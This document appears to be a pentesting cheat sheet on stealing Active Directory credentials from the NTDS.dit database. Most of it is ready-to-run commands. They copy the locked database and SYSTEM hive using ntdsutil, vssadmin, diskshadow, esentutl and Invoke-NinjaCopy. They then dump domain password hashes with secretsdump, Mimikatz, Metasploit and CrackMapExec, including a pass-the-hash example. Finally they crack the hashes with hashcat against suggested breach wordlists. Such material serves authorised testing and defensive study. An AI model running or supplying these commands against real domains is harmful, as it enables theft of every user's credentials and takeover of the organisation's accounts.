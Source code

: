 # NTDS.dit & vshadow

The Ntds.dit file is a database that stores Active Directory data, including information about user objects, groups, and group membership. It includes the password hashes for all users in the domain.

The important NTDS.dit file will be located in: %SystemRoom%/NTDS/ntds.dit This file is a database Extensible Storage Engine (ESE) and is "officially" composed by 3 tables:

```
Data Table: Contains the information about the objects (users, groups...)
Link Table: Information about the relations (member of...)
SD Table: Contains the security descriptors of each object
```

Windows uses Ntdsa.dll to interact with that file and its used by lsass.exe. Then, part of the NTDS.dit file could be located inside the lsass memory (you can find the lastet accessed data probably because of the performance impruve by using a cache).

## <mark style="color:red;">Decrypting the hashes inside NTDS.dit</mark>

You will need the following files to extract the ntds :

* NTDS.dit file
* SYSTEM hive (C:\Windows\System32\SYSTEM)

Usually you can find the ntds in two locations : `systemroot\NTDS\ntds.dit` and `systemroot\System32\ntds.dit`.

* `systemroot\NTDS\ntds.dit` stores the database that is in use on a domain controller. It contains the values for the domain and a replica of the values for the forest (the Configuration container data).
* `systemroot\System32\ntds.dit` is the distribution copy of the default directory that is used when you install Active Directory on a server running Windows Server 2003 or later to create a domain controller. Because this file is available, you can run the Active Directory Installation Wizard without having to use the server operating system CD.

However you can change the location to a custom one, you will need to query the registry to get the current location.

```
reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"
```

The hash is cyphered 3 times:

```
Decrypt Password Encryption Key (PEK) using the BOOTKEY and RC4.
Decrypt tha hash using PEK and RC4.
Decrypt the hash using DES.
```

PEK have the same value in every domain controller, but it is cyphered inside the NTDS.dit file using the BOOTKEY of the SYSTEM file of the domain controller (is different between domain controllers). This is why to get the credentials from the NTDS.dit file you need the files NTDS.dit and SYSTEM (C:\Windows\System32\config\SYSTEM).

### <mark style="color:orange;">Copying NTDS.dit using Ntdsutil</mark>

Available since Windows Server 2008.

```
ntdsutil "ac i ntds" "ifm" "create full c:\copy-ntds" quit quit
ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
```

or run ntdsutil interactivly:

```
C:\>ntdsutil
ntdsutil: activate instance ntds
ntdsutil: ifm
ifm: create full c:\pentest
ifm: quit
ntdsutil: quit
```

## <mark style="color:red;">Vshadow</mark>

You could also use the volume shadow copy trick to copy the ntds.dit file. Remember that you will also need a copy of the SYSTEM file (again, dump it from the registry or use the volume shadow copy trick).

```
vssadmin create shadow /for=C :
Copy Shadow_Copy_Volume_Name\windows\ntds\ntds.dit c:\ntds.dit
```

You can also use the Nishang script, available at : [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)

```
Import-Module .\Copy-VSS.ps1
Copy-VSS
Copy-VSS -DestinationDir C:\ShadowCopy\
```

### <mark style="color:orange;">**Using vssadmin**</mark>

```
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy
```

### <mark style="color:orange;">**Using DiskShadow (a Windows signed binary)**</mark>

```
diskshadow.txt contains :
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %someAlias%
reset

then:
NOTE - must be executed from C:\Windows\System32
diskshadow.exe /s  c:\diskshadow.txt
dir c:\exfil
reg.exe save hklm\system c:\exfil\system.bak
```

### <mark style="color:orange;">**Using esentutl.exe**</mark>

**​​**Copy/extract a locked file such as the AD Database

```
esentutl.exe /y /vss c:\windows\ntds\ntds.dit /d c:\folder\ntds.dit
```

***

## <mark style="color:red;">Extracting hashes from NTDS.dit</mark>

Once you have obtained the files NTDS.dit and SYSTEM you can use tools like secretsdump.py to extract the hashes:

```
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL -outputfile credentials.txt
```

### <mark style="color:orange;">remote NTDS.dit Dump</mark>

You can also extract them automatically using a valid domain admin user:

```
secretsdump.py -just-dc-ntlm <DOMAIN>/<USER>@<DOMAIN_CONTROLLER>
./secretsdump.py -dc-ip IP AD\administrator@domain -use-vss -pwd-last-set -user-status 
./secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
```

* `-pwd-last-set`: Shows pwdLastSet attribute for each NTDS.DIT account.
* `-user-status`: Display whether or not the user is disabled.

### <mark style="color:orange;">Metasploit & Mimikatz Modules</mark>

Finally, you can also use the metasploit module:

```
post/windows/gather/credentials/domain_hashdump
lsadump::lsa /inject
```

### <mark style="color:orange;">PowerSploit module</mark>

```
Invoke-NinjaCopy --path c:\windows\NTDS\ntds.dit --verbose --localdestination c:\ntds.dit
```

### <mark style="color:orange;">CrackMapExec module</mark>

```
cme smb 10.10.0.202 -u username -p password --ntds vss
cme smb 10.10.0.202 -u username -p password --ntds drsuapi #default
```

### <mark style="color:orange;">Mimikatz</mark>

{% hint style="info" %}
Dumps credential data in an Active Directory domain when run on a Domain Controller.

This requires administrator access with debug or Local SYSTEM rights.
{% endhint %}

```
sekurlsa::krbtgt
lsadump::lsa /inject /name:krbtgt
```

## <mark style="color:red;">**Crack NTLM hashes with hashcat**</mark>

Useful when you want to have the clear text password or when you need to make stats about weak passwords.

Recommended wordlists:

Have I Been Powned ([https://hashes.org/download.php?hashlistId=7290\&type=hfound](https://hashes.org/download.php?hashlistId=7290\&type=hfound))

Collection #1 (passwords from Data Breaches, might be illegal to possess)

```
# Basic wordlist
# (-O) will Optimize for 32 characters or less passwords
# (-w 4) will set the workload to "Insane" 
$ hashcat64.exe -m 1000 -w 4 -O -a 0 -o pathtopotfile pathtohashes pathtodico -r ./rules/best64.rule --opencl-device-types 1,2

# Generate a custom mask based on a wordlist
$ git clone https://github.com/iphelix/pack/blob/master/README
$ python2 statsgen.py ../hashcat.potfile -o hashcat.mask
$ python2 maskgen.py hashcat.mask --targettime 3600 --optindex -q -o hashcat_1H.hcmask
```

If the password is not a confidential data (challenges/ctf), you can use online "cracker" like :

* [hashes.org](https://hashes.org/check.php)
* [hashes.com](https://hashes.com/en/decrypt/hash)
